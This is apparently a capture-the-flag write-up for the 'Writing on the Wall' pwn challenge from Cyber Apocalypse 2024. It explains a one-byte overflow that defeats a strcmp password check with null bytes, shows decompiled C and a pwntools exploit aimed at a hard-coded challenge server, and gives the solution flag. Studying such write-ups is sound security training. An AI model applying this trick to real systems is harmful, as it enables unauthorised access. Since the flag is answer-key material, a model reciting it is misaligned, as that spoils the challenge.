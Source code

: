 # Cyber Apocalypse 2024

## Writing on the Wall

> As you approach a password-protected door, a sense of uncertainty envelops you—no clues, no hints. Yet, just as confusion takes hold, your gaze locks onto cryptic markings adorning the nearby wall. Could this be the elusive password, waiting to unveil the door's secrets?
> 
> Author: w3th4nds
> 
> [`pwn_writing_on_the_wall.zip`](pwn_writing_on_the_wall.zip)

Tags: _pwn_

## Solution
The challenge comes with a binary we decompile with `Ghidra`. The main has a small buffer that contains the string `w3tpass `, reads some user input and compares the content of the buffer with the user input. If both are the same the flag is shown.

The only problem is that our input buffer is only 6 bytes wide and the `password` is 7 bytes wide (note the space at the end). Luckily we have a one byte buffer overflow and even better, this one byte is the first byte of the password buffer. Therefore sending 7 null bytes will cause the string compare to succeed, as `strcmp` relys on c-strings which use a null-byte for string termination. The compare compares therefore two empty strings and decides they must be the same and giving us eventually the flag.

```c
undefined8 main(void)
{
  long lVar1;
  int iVar2;
  long in_FS_OFFSET;
  char local_1e [6];
  char local_18 [8];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  local_18[0] = 'w';
  local_18[1] = '3';
  local_18[2] = 't';
  local_18[3] = 'p';
  local_18[4] = 'a';
  local_18[5] = 's';
  local_18[6] = 's';
  local_18[7] = ' ';
  read(0,local_1e,7);
  iVar2 = strcmp(local_1e,local_18);
  if (iVar2 == 0) {
    open_door();
  }
  else {
    error("You activated the alarm! Troops are coming your way, RUN!\n");
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

```python
from pwn import *

p = remote("94.237.62.252", 34784)
p.sendline(b"\x00"*7)
p.interactive()
```

Flag `HTB{3v3ryth1ng_15_r34d4bl3}`